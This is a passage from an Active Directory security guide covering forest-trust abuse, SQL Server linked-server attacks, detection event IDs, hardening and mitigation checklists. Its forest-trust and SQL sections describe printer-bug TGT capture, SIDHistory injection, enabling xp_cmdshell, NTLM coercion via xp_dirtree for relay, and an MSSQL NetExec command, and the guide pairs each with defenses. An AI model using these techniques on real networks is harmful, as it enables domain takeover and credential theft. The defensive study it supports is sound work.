
Microsoft treats the AD forest as the security boundary. SpecterOps' *Not A Security Boundary: Breaking Forest Trusts* proves this is empirically false when unconstrained delegation exists ([SpecterOps](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/)).



The chain: a DC with **unconstrained delegation** in Forest A captures any TGT that authenticates to it. The **MS-RPRN printer bug** (`RpcRemoteFindFirstPrinterChangeNotification`) forces a foreign DC (Forest B) to authenticate back to the compromised DC over the forest trust. The foreign DC's TGT is cached on the compromised DC's LSASS, extractable with `sekurlsa::tickets`. That TGT is then used to request TGS tickets in Forest B as the foreign DC — full compromise of the trusting forest. The **Authenticated Users** SID crosses trusts, so the printer bug works without prior creds in the foreign forest.

**Within a single domain**, trusts enable other pivots: external/shortcut trusts with `SIDFiltering` disabled allow **SIDHistory injection** (craft tickets containing privileged SIDs from the trusted domain). Clean up with:

```powershell
Set-ADUser -Identity <acct> -Remove @{SIDHistory='S-1-5-21-...'}
```

**Defender view.** Watch Event **4769** for TGT requests from foreign-principal SIDs and forwarded TGTs, plus 4624 type 3 logons from foreign-domain accounts onto DCs. Mitigations per the NSA advisory: **disable/uninstall Print Spooler on all DCs** (also kills PrintNightmare and the printer-bug relay surface), enforce SID filtering on all external trusts, prefer **selective authentication** trusts, and eliminate unconstrained delegation entirely — mark privileged computer accounts `AccountNotDelegated`:

```powershell
Get-ADComputer -Identity ComputerA | Set-ADAccountControl -AccountNotDelegated:$true
```

Forest-trust attacks map to **T1482 (Domain Trust Discovery)** and **T1558.001 (Golden Ticket)**.

## 36. SQL Server Abuse & Linked Servers

SQL Server is a high-value AD lateral target because service accounts are often privileged, sysadmin logins grant OS-level `xp_cmdshell`, and **linked servers** chain trust across instances — sometimes to other forests.

**Recon.** SPN scanning finds SQL instances without port scanning (any domain user, forest-wide via Global Catalog):

```powershell
$root = [ADSI]"GC://$($forest.RootDomain.Name -replace '\.',',DC=')"
$s = New-Object System.DirectoryServices.DirectorySearcher($root,"(servicePrincipalName=*sql*)")
$s.PageSize=500; $s.FindAll()
```

([ADSecurity.org](https://adsecurity.org/?p=230)) — the indexed `servicePrincipalName` attribute returns in under a second and looks like normal Kerberos client traffic.

**Abuse chain.** Authenticate (often the same SQL service account reused across boxes) → `EXEC xp_cmdshell 'whoami'` → enable if disabled (`sp_configure 'xp_cmdshell',1`) → OS command execution as the SQL service account (frequently a domain admin or DA-equivalent). `xp_dirtree` and `xp_fileexist` coerce NTLM auth to an attacker SMB share for relay (`ntlmrelayx` → LDAP → RBCD), the classic MSSQL LPE path documented in Elad Shamir's *Wagging the Dog* ([eladshamir.com](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html)).

**Linked servers.** `sp_linkedservers` enumerates links; `SELECT * FROM [linked].[db].[dbo].[table]` executes on the remote instance in the **linked account's** context. If the link uses the current login (Windows auth delegation) or a fixed SQL login, you inherit that principal's rights on the remote box. Chains of linked servers across domains effectively walk the trust path without touching Kerberos directly. NetExec automates MSSQL crawling: `nxc mssql 10.0.0.0/24 -u sa -p pass -q "SELECT @@version"` ([Pennyw0rth/NetExec](https://github.com/Pennyw0rth/NetExec)).

**Defender view.** Monitor SQL Server ERRORLOG and Windows Event **33205** (Audit Login) for logins from unexpected source IPs/workstations, `xp_cmdshell` execution, and `sp_addlinkedsrvlogin` changes. Enable SQL Audit on `SUCCESSFUL_LOGIN_GROUP` and `BATCH_COMPLETED_GROUP`. Hunt `xp_dirtree`/`xp_fileexist` to UNC paths — a strong RBCD-relay precursor. MITRE: **T1021.002 (SMB)**, **T1047 (WMI)**, **T1210 (Exploitation of Remote Services)**. Mitigation: disable `xp_cmdshell`, enforce least-privilege SQL service accounts (gMSA), restrict linked servers to read-only with explicit credentials, and enable SQL Server Kerberos (not NTLM) so relay is harder.

## 37. Impact Analysis

The combined impact of the techniques in this group is **forest-level compromise that survives rebuilds if not remediated correctly**. A single compromised Domain Admin (often reached via dark-web-leaked credentials → Kerberoasting → DCSync) yields:

- **All password hashes** (DCSync) → offline cracking, password reuse, persistence.
- **Golden/Sapphire Ticket** → arbitrary identity for 10+ years, undetectable until `krbtgt` double-reset.
- **Cross-forest compromise** via unconstrained delegation + printer bug → one forest breach becomes many.
- **SQL linked-server chains** → lateral movement that looks like normal application traffic.

The NSA/CISA advisory states AD compromise is *"devastating and hard to recover from"* — recovery typically requires full `krbtgt` double-reset or AD rebuild ([NSA report](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)). Mandiant M-Trends 2025 confirms stolen credentials became the **#2 initial infection vector** (16% of cases) driven by infostealers feeding this exact chain ([M-Trends 2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)). The 7-day infostealer-to-ransomware timeline means the dark-web credential signal is often the only pre-compromise warning ([Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)).

| Compromise stage | Attacker capability gained | Defender signal | Blast radius |
|---|---|---|---|
| Leaked creds | Initial access | Entra `leakedCredentials`, 4625 spray | One account |
| Kerberoast crack | Service-account NTLM | 4769 RC4 etype | One service |
| DCSync | All hashes incl. krbtgt | 4662 mask 0x113f non-DC | Entire domain |
| Golden Ticket | Arbitrary identity/persistence | 4768 anomaly, alert 2013 | Entire domain, long-lived |
| Forest trust abuse | Cross-forest DC compromise | 4769 foreign TGT, PrintService logs | Multiple forests |

Identity-based attacks surged 32% in H1 2025 with 97% password-focused; Microsoft's MACE engine now correlates leaked creds into graph attack paths to prioritize remediation ([From signal to strategy](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856)). The defender's leverage is asymmetric: a single missed `krbtgt` reset undoes every other control.

## 38. Risk Assessment

Risk assessment for this group means scoring the likelihood and blast radius of each attack path against your specific AD posture, then prioritizing fixes by *attacker ROI* — not by checklist.

**Scoring model.** For each path, score Likelihood (1-5) × Impact (1-5):

| Path | Likelihood drivers | Impact | Typical score |
|---|---|---|---|
| Dark-web creds → spray → DA | Infostealer prevalence, no MFA, stale passwords | 5 (forest) | 20-25 |
| Kerberoasting → service DA | RC4 enabled, user-managed SPN accounts | 4 | 12-20 |
| DCSync via ACL abuse | Over-broad replication rights, no tiering | 5 | 20-25 |
| Golden Ticket persistence | krbtgt >180 days old, no monitoring | 5 | 20-25 |
| Forest trust → foreign forest | Unconstrained deleg on DC, Spooler on | 5 | 25 |

**Posture inputs.** Free scanners give the raw signal: **PingCastle** (healthcheck, A+ to F, average initial 61%), **Purple Knight** (218+ IoEs across AD/Entra/Okta), and BloodHound for graph attack-path depth ([PingCastle](https://www.pingcastle.com), [Purple Knight](https://www.semperis.com/purple-knight/)). Run as a **regular domain user** — running as DA hides low-privilege exposure, the exact view attackers start with. Microsoft Security Exposure Management + MACE automates the path-to-critical-asset mapping continuously.

**Prioritized remediation (highest ROI first):**
1. **Tier 0 isolation** (Enterprise Access Model) — DCs, AD CS CAs, AD FS, Entra Connect, backups; no DA logon to workstations.
2. **`krbtgt` double-reset** every 12 months; rotate immediately post-incident.
3. **gMSA/dMSA** for all service accounts — 120-char auto-rotated, no crackable hash (dMSA in Server 2025 is device-bound).
4. **RC4 removal** — disable RC4 by default (Win11 24H2/Server 2025); audit phase Jan 2026, enforce mid-2026 ([MS Kerberoasting guidance](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/)).
5. **Disable Print Spooler on DCs** — kills printer bug, PrintNightmare, and forest-trust coercion.
6. **Enforce SMB signing + LDAP channel binding + EPA on AD CS** — breaks NTLM relay to DCSync/ESC8.
7. **Dark-web monitoring** — Entra ID Protection `leakedCredentials`, Defender for Identity leaked-credential posture, HIBP/SpyCloud; force reset on match ([Entra ID Protection](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)).
8. **Remove discoverable AD passwords** — scan `description`/`info`/`adminComment` for plaintext (Defender AI detection, 40k+ exposed in research) ([doormat blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870)).

**CRTP alignment.** The CRTP (Altered Security ADLab) lab exercises DCSync, Golden Ticket, Kerberoasting, and ACL abuse directly — mastering the attacker side here is prerequisite to the defender-side detection engineering the certification expects. Every technique above pairs an offensive primitive with an event-ID-level detection, which is the CRTP exam's core framing.## 39. Indicators of Attack (IoAs)

Indicators of Attack (IoAs) are observable behaviors that an attack is in progress, regardless of the specific malware or tool. Unlike IoCs (fixed hashes, IPs, domains), IoAs describe *intent* — a credential validation storm, a replication request from a non-DC, a TGS request with RC4 encryption. For the OSINT-to-AD kill chain, IoAs matter because the pre-compromise OSINT phase (T1590/T1596/T1589) is almost invisible by design — defenders must pivot to the *in-network* behaviors that follow a leaked credential being used.

**High-fidelity identity IoAs (Microsoft/DfI mapped to ATT&CK):**

| IoA | ATT&CK | Detection source | Key signal |
|-----|--------|------------------|------------|
| DCSync replication | T1003.006 | DfI alert 2006; EID 4662 | Non-DC account requesting DS-Replication-Get-Changes-All (mask 0x113f) ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)) |
| Kerberoasting | T1558.003 | DfI alert 2410; EID 4769 | TGS-REQ for SPN with RC4-HMAC etype 0x17 ([DfI alerts](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)) |
| AS-REP Roasting | T1558.004 | DfI alert 2412; EID 4768/4771 | AS-REQ for account with "Do not require Kerberos preauth" UAC |
| Golden Ticket | T1558.001 | DfI alert 2013; EID 4768/4769 | Forged auth data, anomalous ticket encryption/lifetime |
| Credential spraying | T1110.003/.004 | DfI alert 2023; EID 4771/4776 | 0x18 (wrong password) across many accounts, one source IP |
| LSASS memory access | T1003.001 | MDE ASR; Sysmon EID 10 | GrantedAccess 0x1410/0x143a to lsass.exe |
| Leaked credential use | T1078 | Entra ID Protection | `leakedCredentials` riskEventType, always HIGH ([ID Protection](https://learn.microsoft.com/en-us/entra/id-protection/concept-identity-protection-risks)) |
| Exposed creds in AD attributes | T1552 | Defender Secure Score | Plaintext in description/info/adminComment, readable by any user ([doormat blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/leaving-the-key-under-the-doormat-how-microsoft-defender-uses-ai-to-spot-exposed/4439870)) |

**Behavioral signals from the dark-web side.** The credential-leak-to-ransomware window has compressed to ~7 days: Day 0 infostealer infection → Day 1 log listed on Telegram (~$45) → Day 2 IAB validates session-cookie access (MFA bypass) → Day 3 verified access resold (~$3,200) → Day 7 ransomware ([Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)). Stealer logs carry session cookies that bypass push/SMS MFA entirely — only FIDO2 resists. The earliest reliable enterprise signal is *external*: the org's domain appearing in newly published stealer logs on markets monitored by Hudson Rock, SpyCloud, Flare, or IntelX. Treat "our domain in a fresh log" as a P1 IoA, not a watchlist curiosity.

## 40. Detection Techniques (MDE / MDI / SIEM)

**Microsoft Defender for Identity (MDI/DfI)** — the on-prem AD sensor. It consumes DC network traffic and ETW directly (Kerberos 4768/4769 are captured from the wire, not event log) plus Windows event 4776 for NTLM validation ([DfI event collection](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4776)). Credential-access alerts map cleanly to MITRE: DCSync 2006 (T1003.006), Golden Ticket 2013 (T1558.001), Kerberoasting 2410 (T1558.003), AS-REP 2412 (T1558.004), Honeytoken auth 2014 (T1087.002), Brute Force 2023 (T1110). Two newer posture assessments catch the *source* of the problem before an attack: "Change password for on-premises account with potentially leaked credentials" (Preview, Nov–Dec 2025) and "Remove discoverable passwords in AD account attributes" — both are Secure Score items enabled by default with a sensor ([DfI accounts posture](https://learn.microsoft.com/en-us/defender-for-identity/security-posture-assessments/accounts)).

**Microsoft Defender for Endpoint (MDE).** The LSASS ASR rule (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`) blocks process access to LSASS memory, stopping Mimikatz/sekurlsa, ProcDump, and comsvcs.dll MiniDump. Action types in advanced hunting: `AsrLsassCredentialTheftAudited` / `AsrLsassCredentialTheftBlocked`. Run Block mode via registry:

```powershell
reg add "HKLM\Software\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\ASR\Rules" /v "9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2" /t REG_SZ /d "1" /f
```

If Credential Guard / LSA Protected Process Light is on, the rule is redundant. Start in Audit — LSASS access volume is high ([ASR reference](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide)).

**Unified Password protection page (Preview)** at Identities > Password protection consolidates four tabs: Password Hygiene, Password Policies, Leaked Credentials (accounts found on paste sites/dark web — bulk reset/disable), and Exposed Passwords (cleartext in AD attributes, reversible GPO passwords). Covers AD, Entra ID, and Okta. Needs Security Reader + DfI/E5 + Entra ID Protection ([password protection](https://learn.microsoft.com/en-us/defender-for-identity/password-protection)).

**Entra ID Protection.** Emits `leakedCredentials` (always HIGH, verified match) when Microsoft's scanning pipeline finds a tenant user's valid password in a breach dump. Query programmatically:

```http
GET https://graph.microsoft.com/v1.0/identityProtection/riskDetections?$filter=riskEventType eq 'leakedCredentials'
```

Remediate via `riskyUsers/confirmCompromised` or `dismiss` ([Graph identity protection](https://learn.microsoft.com/en-us/graph/api/resources/identityprotection-overview?view=graph-rest-1.0)). On-prem matches require Password Hash Synchronization.

**Microsoft Security Exposure Management + MACE.** The Microsoft Advanced Correlation Engine turns a flat leaked-credential list into a prioritized graph: it validates whether a leaked Entra credential is actually usable, then maps the attack path from the exposed account to Tier-0 assets. This is the strategic view that replaces "reset 400 users" with "reset these 3 users, they reach the DC" ([signal-to-strategy blog](https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/from-signal-to-strategy-closing-attack-paths-with-identity-intelligence/4491856)).

**SIEM (Sentinel) correlation pattern.** Content-hub solutions (CybleVision, TacitRed, XposedOrNot) poll dark-web/breach APIs, normalize into Log Analytics custom tables, then analytics rules join exposed accounts against `SigninLogs`:

```kql
XposedOrNot_XonBreachDetails_CL
| join kind=innerunique (SigninLogs | summarize lastSignin=max(TimeGenerated) by UserPrincipalName) on UserPrincipalName
| where lastSignin > TimeGenerated
```

CybleVision's leaked-credentials rule maps to T1552/T1082 ([Sentinel solution](https://github.com/Azure/Azure-Sentinel/blob/master/Solutions/Cyble%20Vision/Analytic%20Rules/Alerts_Leaked_Credentials.yaml)). Common to all: poll → normalize → custom log → analytics rule → SOAR reset.

**MDTI Graph APIs** for OSINT infrastructure pivoting: `GET https://graph.microsoft.com/v1.0/security/threatIntelligence/hosts/contoso.com` returns PDNS, WHOIS, SSL certs, subdomains, trackers, components. Requires `ThreatIntelligence.Read.All` ([MDTI overview](https://learn.microsoft.com/en-us/graph/api/resources/security-threatintelligence-overview?view=graph-rest-1.0)). The standalone Defender TI portal retires Aug 1 2026 — Graph is the integration path.

## 41. Logging & Monitoring (Windows Event IDs)

The dark-web-to-AD chain produces a small, well-understood event footprint. Forward these to your SIEM with a high-confidence analytic per event.

| EID | Meaning | Attack signal | Source |
|-----|---------|---------------|--------|
| 4624 | Successful logon | Type 3/10 from spray source IP after many 4625 = stuff succeeded | Target host |
| 4625 | Logon failure | SubStatus 0xC000006A (wrong pw, valid user) = spray; 0xC0000064 (no account) = enum; 0xC0000234 (locked) | Target host / DC |
| 4776 | NTLM validation (S/F) | Required by DfI; 0xC000006A / 0xC0000234 = brute/spray/lockout | DC |
| 4768 | Kerberos TGT granted | RC4 etype 0x17 = downgrade/forgery indicator; absence after 4769 = forged ticket | DC (wire/ETW via DfI) |
| 4769 | Kerberos TGS granted | RC4 0x17 for SPN = Kerberoasting; anomalous TGS volume per user | DC (wire/ETW via DfI) |
| 4771 | Kerberos pre-auth failed | 0x18 wrong password = spray; 0x6 invalid account = enum; 0x12 locked/disabled | DC |
| 4770 | TGT renewal | Unusual renewal patterns | DC |
| 4662 | Directory service access | Replication mask 0x113f (DS-Replication-Get-Changes-All) from non-DC = DCSync | DC |
| 4742 | Computer account changed | Machine account renamed to match a DC name (no trailing `$`) = noPac stage 1 | DC |
| 4724 | Account password reset | Follows 4742 in noPac | DC |
| 4741 | Computer account created | `ms-DS-MachineAccountQuota` abuse (RBCD, noPac) | DC |
| 5136 | Directory object modified | Write to `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` = RBCD plant | DC |
| 4886/4887 | Cert enroll/request | AD CS ESC abuse on the CA | CA |
| 5827–5831 | Netlogon secure channel | Zerologon non-compliant/blocked connections | DC |

**Kerberos failure code cheat sheet** (memorize these): `0x6` invalid account (enumeration), `0x12` locked/disabled/expired, `0x18` wrong password (spraying), `0x25` clock skew. **NTLM/4625 SubStatus**: `0xC0000064` no account, `0xC000006A` wrong password valid user, `0xC0000234` locked.

**Splunk spray detection (EID 4771, failure 0x18):**

```splunk
`wineventlog_security` EventCode=4771 TargetUserName!=\"*$\" Status=0x18
| bucket span=5m _time
| stats dc(TargetUserName) AS unique_accounts BY _time, IpAddress
| eventstats avg(unique_accounts) as comp_avg stdev(unique_accounts) as comp_std BY IpAddress
| eval isOutlier=if(unique_accounts > 10 and unique_accounts >= (comp_avg+comp_std*3), 1, 0)
| search isOutlier=1
```

**Thresholds:** 15+ failures across 5+ distinct accounts in 1h = HIGH; any subsequent 4624 success from the same source IP = CRITICAL ([T1110.004 detection](https://df00tech.com/detections/T1110.004)).

**Canary/honeytoken objects** emit EID 4662 on read — high-fidelity detection of Kerberoasting, AS-REP roasting, DCSync, and SharpHound enumeration against decoy user/computer/SPN objects ([NSA AD guide](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

## 42. Defensive Strategies

The single most effective strategy is to **break the chain early at the credential-exposure layer**, because MITRE assigns only M1056 (Pre-compromise: minimize externally available sensitive data) to the OSINT/reconnaissance tactics — there is no in-network detection for T1590/T1596/T1589. Defense is therefore *asymmetric*: cloud-side monitoring + credential hygiene, not perimeter controls.

1. **External attack-surface + dark-web monitoring (AU-13(1), DE.CM).** Continuously watch breach corpora, stealer-log markets, and Telegram channels for the org's domains and email formats. Sources: Have I Been Pwned, SpyCloud, Hudson Rock, Flare, IntelX, Constella, CrowdStrike Falcon Recon+, NetSPI EASM. Map to NIST SP 800-53 AU-13(1) "Monitoring Open-Source Information" and SI-4(4) unauthorized credential use ([800-53 SI-4](https://nist-sp-800-53-r5.bsafes.com/docs/3-19-system-and-information-integrity/si-4-system-monitoring/)). Goal: detect inside the 24–48h window before access brokers resell.

2. **Phishing-resistant MFA.** Stealer session cookies bypass push/SMS/TOTP. Only FIDO2/WebAuthn passkeys bound to a device resist replay. Mandiant M-Trends 2025: stolen credentials became the #2 initial-access vector (16%), driven by infostealers harvesting from personal/unmanaged devices ([M-Trends 2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)). The UNC5537/Snowflake campaign compromised ~165 tenants using credentials stolen as far back as 2020 — 79.7% had prior credential exposure, none had MFA ([Mandiant UNC5537](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)).

3. **Breached-password blocklist screening.** NIST SP 800-63B-4 (July 2025) mandates verifiers SHALL compare prospective passwords against a blocklist including "passwords obtained from previous breach corpuses" — whole-password match, reject on hit ([SP 800-63B-4](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf)). Entra Password Protection applies this automatically on-prem via a DC agent filter DLL; the global banned list is derived from real Entra spray telemetry, not third-party breach lists, and cannot be disabled ([Entra PP concept](https://learn.microsoft.com/en-us/entra/identity/authentication/concept-password-ban-bad-on-premises)).

4. **Tiered identity + least privilege.** Stop credential reuse across tiers so a leaked Tier-2 user cannot reach Tier-0. See [Hardening & Architecture](#hardening--architecture-esaepaw-tiered-adminlaps).

5. **Force rotation on exposure.** When a leak matches, the response is not "watch it" — it is forced password reset + token/session revocation + investigation of recent sign-ins (IA-5 authenticator rotation). The Defender Password protection page supports bulk reset/disable directly.

## 43. Hardening & Architecture (ESAE / PAW / Tiered Admin / LAPS)

The NSA/CISA/ASD Five-Eyes advisory (Sept 2024) is the current authoritative AD hardening baseline and ties dark-web credential exposure directly to AD takeover ([NSA AD guide](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

**Tiered administration (Enterprise Access Model).** Replaces the legacy Tier 0/1/2 model with a stricter scope:
- **Tier 0** = DCs, AD CS CA servers, AD FS, Entra Connect servers, backup servers holding DC backups, anything that can touch krbtgt. Compromise = game over.
- **Tier 1** = servers, infrastructure services.
- **Tier 2** = user workstations.
Privileged accounts never log on to lower-tier assets; lower-tier accounts never administer higher tiers. A leaked Tier-2 user credential cannot pivot to a DC.

**PAW (Privileged Access Workstation).** A hardened, dedicated, internet-isolated workstation for Tier-0/1 administration. No email, no general browsing, no local admin for the privileged user on non-PAW hosts. Breaks the infostealer-on-personal-laptop vector that drove the Snowflake breach.

**LAPS (Local Administrator Password Solution).** Automatically rotates and manages the local admin password on each managed machine; unique per host, stored in AD (legacy) or Entra (Windows LAPS). Defeats pass-the-hash lateral movement using a shared local-admin hash. Rotate on every password-policy interval and after any suspected exposure.

**gMSAs / dMSAs.** Group Managed Service Accounts auto-rotate a 120-character password every 30 days; the password is retrievable only by authorized hosts. Delegated MSAs (Windows Server 2025) go further: the secret is stored only on the DC, device-bound, retrieved via TGT (`KERB-DMSA-KEY-PACKAGE`) instead of LDAP `msDS-ManagedPassword` — structurally defeats Kerberoasting of service accounts ([dMSA overview](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/delegated-managed-service-accounts/delegated-managed-service-accounts-overview)). Caveat: Akamai's "Ouroboros" research shows dMSA permissions can inherit superseded legacy account privileges — scope carefully.

**ESAE (Enhanced Security Administrative Environment).** The classic red-forest / administrative-forest design (admin forest trusts prod forest one-way, accounts live in admin forest). Microsoft now de-emphasizes ESAE in favor of Cloud-first tiering + Entra PIM, but it remains a valid high-assurance pattern. SpecterOps' "Not A Security Boundary" proved the AD *forest* is not a true boundary when unconstrained delegation + the printer bug are in play — so if you keep ESAE, disable Print Spooler on DCs and eliminate unconstrained delegation ([SpecterOps forest trusts](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/)).

**Disable risky services on DCs.** Print Spooler (PrintNightmare), SMBv1. Enforce SMB signing everywhere. Set `MachineAccountQuota=0` to block trivial computer-account creation for RBCD/noPac.

**RC4 Kerberos removal.** RC4 disabled by default in Windows 11 24H2 / Server 2025. Beyond-RC4 cadence: Phase 1 audit Jan 2026, Phase 2 default flip Apr 2026, Phase 3 enforcement via CVE-2026-20833 mid-2026 ([Kerberoasting guidance](https://www.microsoft.com/en-us/security/blog/2024/10/11/microsofts-guidance-to-help-mitigate-kerberoasting/)).

## 44. Mitigation Techniques

**Per-attack mitigations, mapped to the kill chain:**

| Attack | Mitigation | Event signal |
|--------|-----------|--------------|
| LSASS dump (T1003.001) | ASR LSASS rule (Block); Credential Guard; LSA Protected Process Light (RunAsPPL); WDAC | Sysmon EID 10 GrantedAccess 0x1410 |
| DCSync (T1003.006) | Remove DS-Replication-Get-Changes-All from non-DC accounts (DfI Secure Score); tight ACLs on the domain root | EID 4662 mask 0x113f from non-DC |
| Kerberoasting (T1558.003) | gMSA/dMSA; disable RC4; long random service-account passwords | EID 4769 etype 0x17 |
| AS-REP Roasting (T1558.004) | Enforce Kerberos preauth on all accounts (unset UAC 4194304) | EID 4771 for preauth-disabled accounts |
| Golden Ticket (T1558.001) | Reset krbtgt **twice, >=10h apart** to invalidate existing TGTs; reset every 12 months | EID 4768 with forged PAC |
| Credential spray/stuff (T1110) | Entra smart lockout; breached-password blocklist; FIDO2; rate-limit 100 failures | EID 4771 0x18 storm |
| RBCD plant (T1558.003) | `MachineAccountQuota=0`; monitor LDAP writes to `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` | EID 5136 |
| noPac (CVE-2021-42278/42287) | Apply KB5008102 + KB5008380 | EID 4742 + 4724 |
| PetitPotam relay (CVE-2021-36942) | Patch; EPA on AD CS web enrollment; LDAP signing+channel binding; SMB signing | MS-EFSRPC to non-DC |
| Credential leak (T1589.001) | Breach monitoring; forced reset; session/token revocation; FIDO2 | Entra `leakedCredentials` |
| Exposed creds in AD attributes (T1552) | Remove plaintext from description/info/adminComment; scan with Defender AI detection | Secure Score recommendation |
| PrintNightmare (CVE-2021-34527) | Patch; `RestrictDriverInstallationToAdministrators=1`; disable Spooler on DCs | PrintService EID 808/316 |
| Zerologon (CVE-2020-1472) | Apply KB4557222 + Feb 2021 enforcement; enable FullSecureChannelProtection | EID 5827–5831 |

**krbtgt double-reset** is the canonical Golden Ticket invalidation: reset the password, wait >=10 hours (max Kerberos ticket lifetime), reset again. Microsoft's forest recovery guide prescribes this after any krbtgt hash exposure ([krbtgt reset](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password)). DfI flags krbtgt passwords older than 180 days.

**Remove SIDHistory** to prevent unsecure SID-history privilege inheritance:

```powershell
Get-ADUser -Identity <account> -Properties SidHistory | Select-Object -ExpandProperty SIDHistory
Set-ADUser -Identity <account> -Remove @{SIDHistory='S-1-5-21-...'}
```

**Mark privileged computer accounts not-delegated** to prevent Kerberos delegation abuse:

```powershell
Get-ADComputer -Identity "ComputerA" | Set-ADAccountControl -AccountNotDelegated:$true
```

**Defender for Identity posture assessments to remediate now:** accounts with DCSync permissions; accounts with leaked credentials; discoverable passwords in AD attributes; krbtgt password age; suspicious SPN exposure; `DONT_REQUIRE_PREAUTH` flag on accounts.

## 45. Prevention Checklist

A prioritized, actionable checklist. Work top-down — the top items break the kill chain earliest.

**External / credential-exposure layer (break the chain earliest)**
- [ ] Subscribe to a dark-web/breach monitoring service (HIBP, SpyCloud, Hudson Rock, Flare, IntelX, CrowdStrike Recon+) and alert on the org domain in new stealer logs
- [ ] Enable Entra ID Protection `leakedCredentials` detection; forward to SIEM; auto-confirm-compromised via Graph API for HIGH matches
- [ ] Enable Defender for Identity leaked-credential posture assessment (default on with sensor)
- [ ] Review the Defender Password protection page (Leaked Credentials + Exposed Passwords tabs) weekly
- [ ] Enforce breached-password blocklist (Entra Password Protection on-prem DC agent; custom banned list up to 1,000 terms)
- [ ] Mandate FIDO2/passkeys for all privileged and remote-access accounts; disable SMS/TOTP where possible

**Authentication hardening**
- [ ] Smart lockout (Entra) + on-prem account lockout policy; rate-limit 100 consecutive failures (SP 800-63B-4)
- [ ] Disable RC4 in Kerberos (audit → default → enforce per Beyond-RC4 cadence)
- [ ] Enforce Kerberos preauth on every account (audit UAC bit 4194304)
- [ ] Enable Credential Guard / LSA Protected Process Light on Win10+/Server 2016+
- [ ] Enable the LSASS ASR rule (GUID `9e6c4e1f-...`) in Block mode

**Tiered architecture**
- [ ] Implement Enterprise Access Model tiering; Tier-0 accounts never touch Tier-2 hosts
- [ ] Deploy PAWs for Tier-0/1 administration; no email/browse on PAWs
- [ ] Deploy Windows LAPS (or legacy LAPS); unique rotated local admin per host
- [ ] Migrate service accounts to gMSA/dMSA (Server 2025); remove human-owned SPN accounts
- [ ] Set `MachineAccountQuota=0`
- [ ] Disable Print Spooler + SMBv1 on all DCs; enforce SMB signing domain-wide
- [ ] EPA on AD CS web enrollment; LDAP signing + channel binding
- [ ] Add Protected Users group membership for Tier-0 (requires 2012 R2 functional level)

**Monitoring & detection**
- [ ] Forward EID 4624/4625/4768/4769/4771/4776/4662/4741/4742/4724/5136/4886/4887 to SIEM
- [ ] Deploy DfI sensors on all DCs; enable all credential-access alerts
- [ ] Deploy honeytoken user/computer/SPN objects; alert on EID 4662 reads of them
- [ ] Build spray analytics (4771 0x18 / 4776 0xC000006A storms; 15+/5+/1h = HIGH; any 4624 success = CRITICAL)
- [ ] Build DCSync analytic (EID 4662 mask 0x113f from non-DC)
- [ ] Build Kerberoasting analytic (EID 4769 etype 0x17, per-user TGS volume)
- [ ] Sysmon EID 10 LSASS access (GrantedAccess 0x1410/0x143a)
- [ ] Run PingCastle + Purple Knight quarterly; remediate top findings ([PingCastle](https://www.pingcastle.com), [Purple Knight](https://www.purple-knight.com))

**Maintenance cadence**
- [ ] Reset krbtgt twice (>=10h apart) every 12 months and after any suspected hash exposure
- [ ] Quarterly review of DfI Secure Score posture assessments (DCSync perms, leaked creds, AD-attribute creds, krbtgt age, SPN exposure, preauth flag)
- [ ] Patch cycle: track CISA KEV for the CVEs that feed the dark-web leak economy (MOVEit, Citrix Bleed, Log4Shell, ProxyLogon/Shell, Fortinet, PAN-OS, PrintNightmare, Zerologon, noPac, PetitPotam)
- [ ] Rotate service-account and break-glass passwords on policy + on exposure## 46. Testing Checklist

A testing checklist keeps the OSINT and dark web analysis phase from sprawling into unscoped collection or, worse, leaking operator identity. Before any recon task begins, confirm the engagement boundary and the collection posture (passive, semi-passive, or active — per PTES [1](https://pentest-standard.readthedocs.io/en/master/intelligence_gathering.html)).

**Pre-engagement gate**
- [ ] Signed scope, RoE, and authorized target list (domains, IPs, acquisitions, brands).
- [ ] Time budget padded ~20% per PTES guidance for relationship analysis.
- [ ] Trusted agent / HR / legal contact named for any human-attack-surface work.

**OPSEC gate (operator safety)**
- [ ] Dedicated VPS / VPN with no tie to your real identity; no clearnet logins from the recon browser.
- [ ] Burner personas and email accounts; separate browser profile cleared between targets.
